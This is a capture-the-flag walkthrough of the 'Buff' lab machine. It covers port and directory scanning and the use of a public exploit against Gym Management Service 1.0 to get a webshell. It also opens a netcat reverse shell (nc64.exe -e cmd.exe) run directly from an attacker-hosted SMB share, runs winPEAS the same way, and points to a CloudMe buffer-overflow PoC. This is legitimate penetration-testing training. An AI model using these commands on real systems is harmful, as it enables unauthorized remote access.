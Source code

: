 ![image](https://user-images.githubusercontent.com/105310322/196471216-474e621b-00c3-4a90-8d50-55ead69fd885.png)


### Tools: Feroxbuster, exploit.db

### Vulnerabilities: Gym Management Service, Buffer Overflow: CloudMe.exe

Nmap shows 1 port open on port 8080 which is a webpage we can visit.

```
└─$ nmap -A -p- -T4 -Pn 10.129.2.18
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-17 15:56 CDT
Nmap scan report for Buff.htb (10.129.2.18)
Host is up (0.14s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 505.48 seconds
```
A quick feroxbuster shows that their is an upload page and a logout page. Which means there is somewhere to login too.

```console
└─$ feroxbuster -u http://Buff.htb:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,git,pdf -q
301      GET        9l       30w      337c http://buff.htb:8080/include => http://buff.htb:8080/include/
301      GET        9l       30w      333c http://buff.htb:8080/img => http://buff.htb:8080/img/
200      GET      133l      308w     4969c http://buff.htb:8080/
302      GET        0l        0w        0c http://buff.htb:8080/include/logout.php => ../index.php
403      GET       42l       97w        0c http://buff.htb:8080/.html
200      GET        4l       20w      137c http://buff.htb:8080/register.php
301      GET        9l       30w      336c http://buff.htb:8080/upload => http://buff.htb:8080/upload/
200      GET      118l      265w     4169c http://buff.htb:8080/contact.php
200      GET        2l       12w      107c http://buff.htb:8080/upload.php
200      GET        2l       18w      143c http://buff.htb:8080/home.php
200      GET      141l      433w     5337c http://buff.htb:8080/about.php
403      GET       42l       97w        0c http://buff.htb:8080/webalizer
301      GET        9l       30w      337c http://buff.htb:8080/profile => http://buff.htb:8080/profile/
200      GET      133l      308w     4969c http://buff.htb:8080/index.php
403      GET       45l      113w        0c http://buff.htb:8080/phpmyadmin
301      GET        9l       30w      344c http://buff.htb:8080/profile/upload => http://buff.htb:8080/profile/upload/
200      GET        0l        0w        0c http://buff.htb:8080/include/functions.php
200      GET      121l      278w     4282c http://buff.htb:8080/edit.php
200      GET        2l       14w      132c http://buff.htb:8080/profile/index.php
200      GET      113l      268w     4252c http://buff.htb:8080/feedback.php
200      GET      168l      486w     7791c http://buff.htb:8080/packages.php
```


After checking out the website just a bit we can see that it is running Gym Management Service 1.0. A quick google search gives us an exploit we can run.

https://www.exploit-db.com/exploits/48506

After running the exploit we quickly gain access to the shaun user and nab the first flag.

```console
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```
```console
C:\xampp\htdocs\gym\upload> type c:\users\shaun\Desktop\user.txt
�PNG
�
306d****************************
********************************
```

Since this shell sucks I went back and created a reverse shell.

Set up your smbshare.

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Then I ran the exploit again and executed my reverse shell without copying any files.

Note: This is a pretty cool trick I learned and makes things a little faster and easier if you are running into issues with getting files on the victim.

```console
└─$ python2.7 48506.py http://buff.htb:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> \\10.10.16.16\rogue\nc64.exe -e cmd.exe 10.10.16.16 1234
```

By checking through Shaun's files we see an interesting binary.

```console
PS C:\Users\shaun\Downloads> ls
ls


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```


Again I am going to run winpeas without transferring it to the victim.

On host

```console
└─$ sudo impacket-smbserver rogue . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```

On victim

```console
PS C:\users\shaun\Downloads> \\10.10.16.16\rogue\winPEASx64.exe
```
Linpeas shows the running processes and also tells us that the CloudMe service is being ran on localhost port 8888

```console
����������͹ Current TCP Listening Ports
� Check for services restricted from the outside 
  Enumerating IPv4 connections
                                                                                                                               
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               135           0.0.0.0               0               Listening         952             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               5040          0.0.0.0               0               Listening         5816            svchost
  TCP        0.0.0.0               7680          0.0.0.0               0               Listening         1072            svchost
  TCP        0.0.0.0               8080          0.0.0.0               0               Listening         8596            C:\xampp\apache\bin\httpd.exe
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         516             wininit
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         1044            svchost
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         1580            svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         2252            spoolsv
  TCP        0.0.0.0               49668         0.0.0.0               0               Listening         668             services
  TCP        0.0.0.0               49669         0.0.0.0               0               Listening         688             lsass
  TCP        10.129.2.18           139           0.0.0.0               0               Listening         4               System
  TCP        10.129.2.18           8080          10.10.16.16           42504           Close Wait        8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           8080          10.10.16.16           55280           Established       8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           49847         10.10.16.16           445             Established       4               System
  TCP        10.129.2.18           49848         10.10.16.16           1235            Established       6832            \\10.10.16.16\rogue\nc64.exe
  TCP        127.0.0.1             3306          0.0.0.0               0               Listening         8628            C:\xampp\mysql\bin\mysqld.exe
  TCP        127.0.0.1             8888          0.0.0.0               0               Listening         4280            CloudMe
```
This PoC should do the job pretty quickly.

https://www.exploit-db.com/exploits/48389

